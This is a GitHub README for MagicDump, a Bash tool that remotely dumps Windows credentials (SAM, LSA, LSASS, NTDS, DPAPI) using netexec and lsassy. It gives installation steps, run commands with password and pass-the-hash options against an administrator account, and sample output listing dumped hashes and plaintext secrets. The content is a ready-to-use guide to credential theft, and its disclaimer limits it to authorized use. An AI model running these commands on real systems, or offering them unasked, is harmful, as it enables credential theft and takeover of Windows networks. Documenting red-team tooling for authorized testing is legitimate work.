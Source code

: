 # MagicDump

MagicDump is an automated tool designed to remotely dump credentials from Windows machines, including SAM, LSA, LSASS, NTDS, and DPAPI. It simplifies the process of extracting sensitive information, providing organized output and support for multiple authentication methods.

<br>

---

<br>

## Features
- **Credential Dumping**: Automates dumping of SAM, LSA, LSASS, NTDS, and DPAPI credentials.
- **Flexible Authentication**:
  - Username and Password Authentication.
  - Pass-the-Hash Authentication. 
  - (Upcoming) Pass-the-Ticket Authentication.
- **Organized Output**:
  - Logs actions in JSON format.
  - Saves dumps and logs to `~/.magicdump/`.
- **Real-Time Feedback**: Displays actions on the screen as they happen.

<br>

---

<br>

## Requirements
- Bash Shell
- Tools for credential dumping (e.g., `impacket`, `netexec`, etc.)

<br>

---

<br>

## Installation
Clone the repository:
```bash
git clone https://github.com/Mag1cByt3s/MagicDump.git
cd MagicDump
```

<br>

Make the script executable:
```bash
chmod +x MagicDump
```

<br>

---

<br>

## Usage
Run the script with the required options:
```bash
./MagicDump -t <target_ip> -u <username> [-p <password> | -H <hash>] [--local-auth] [-v]
```

<br>

### Arguments
- `-t` / `--target`: Specify the target IP address of the Windows machine.
- `-u` / `--username`: Specify the username to authenticate as.
- `-p` / `--password`: Specify the password for authentication.
- `-H` / `--hash`: Specify the NTLM hash for Pass-the-Hash authentication.
- `--local-auth`: Use local authentication (optional).
- `-v` / `--verbose`: Enable verbose output for debugging (optional).
- `-h` / `--help`: Show usage info

<br>

---

<br>

## Examples
```bash
./MagicDump -t 192.168.1.100 -u administrator -p SuperSecretPass123
```

```bash
./MagicDump -t 192.168.1.100 -u administrator -H '0123456789abcdef0123456789abcdef'
```

<br>

Output:
```bash
==============================
       MagicDump v1.0       
==============================
[INFO] Starting MagicDump against target 192.168.1.100
[INFO] Authenticating as user 'administrator'...
[INFO] Starting SAM dump using netexec...
[LOG] Operation: SAM, Status: success
[INFO] SAM dump saved to ~/.magicdump/dumps/192.168.1.100/SAM_dump_192.168.1.100.txt
[SAM HASHES FOUND]:
SMB                      192.168.1.100    445    HOST               administrator:500:aad3b435b51404eeaad3b435b51404ee:0123456789abcdef0123456789abcdef:::
SMB                      192.168.1.100    445    HOST               Guest:501:aad3b435b51404eeaad3b435b51404ee:abcdefabcdefabcdefabcdefabcdef:::
SMB                      192.168.1.100    445    HOST               DefaultUser:503:aad3b435b51404eeaad3b435b51404ee:deadbeefdeadbeefdeadbeefdeadbeef:::
[INFO] Starting LSA dump using netexec...
[LOG] Operation: LSA, Status: success
[INFO] LSA dump saved to ~/.magicdump/dumps/192.168.1.100/LSA_192.168.1.100.txt
[LSA SECRETS FOUND]:
SMB                      192.168.1.100    445    HOST               EXAMPLE\HOST$:aes256-cts-hmac-sha1-96:aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
SMB                      192.168.1.100    445    HOST               EXAMPLE\HOST$:aes128-cts-hmac-sha1-96:bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
SMB                      192.168.1.100    445    HOST               EXAMPLE\HOST$:des-cbc-md5:cccccccccccccccc
SMB                      192.168.1.100    445    HOST               EXAMPLE\HOST$:plain_password_hex:d41d8cd98f00b204e9800998ecf8427e
SMB                      192.168.1.100    445    HOST               NL$KM:aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
SMB                      192.168.1.100    445    HOST               EXAMPLE\service_user:ServicePass123
[INFO] Starting LSASS dump using lsassy...
[LOG] Operation: LSASS, Status: success
[INFO] LSASS dump saved to ~/.magicdump/dumps/192.168.1.100/LSASS_dump_192.168.1.100.txt
[LSASS CREDENTIALS FOUND]:
EXAMPLE\service_user abcdefabcdefabcdefabcdefabcdefabcdef
[INFO] Dumping complete. Logs saved to ~/.magicdump/logs/192.168.1.100/report_192.168.1.100_20250105080107.json.
```

<br>

---

<br>

## Logfile example

```json
{
  "target_host": "192.168.1.100",
  "operation_time": "2025-01-04T14:00:00Z",
  "credentials_dumped": {
    "SAM": {
      "status": "success",
      "file_path": "/home/user/.magicdump/dumps/SAM_dump_192.168.1.100.txt"
    },
    "LSA": {
      "status": "success",
      "file_path": "/home/user/.magicdump/dumps/LSA_dump_192.168.1.100.txt"
    },
    "NTDS": {
      "status": "success",
      "file_path": "/home/user/.magicdump/dumps/NTDS_dump_192.168.1.100.txt",
      "method": "ntdsutil"
    }
  },
  "warnings": [],
  "logs": [
    "Starting MagicDump against target 192.168.1.100",
    "Authenticating as user 'Administrator'...",
    "Starting SAM dump using netexec...",
    "SAM dump saved to /home/user/.magicdump/dumps/SAM_dump_192.168.1.100.txt",
    "Starting LSA dump using netexec...",
    "LSA dump saved to /home/user/.magicdump/dumps/LSA_dump_192.168.1.100.txt",
    "Starting NTDS dump using ntdsutil...",
    "NTDS dump saved to /home/user/.magicdump/dumps/NTDS_dump_192.168.1.100.txt",
    "Dumping complete. Logs saved to /home/user/.magicdump/logs/report_192.168.1.100_20250104140000.json."
  ]
}
```

<br>

---

<br>

## Roadmap
- Add support for Pass-the-Ticket authentication.
- Integrate more advanced credential dumping techniques.
- Encrypt logs and dumps for security.

<br>

---

<br>

## License
[GPLv3 License](LICENSE)

<br>

---

<br>

## Disclaimer
**MagicDump is intended for authorized use only.** Ensure you have permission before using this tool on any system.
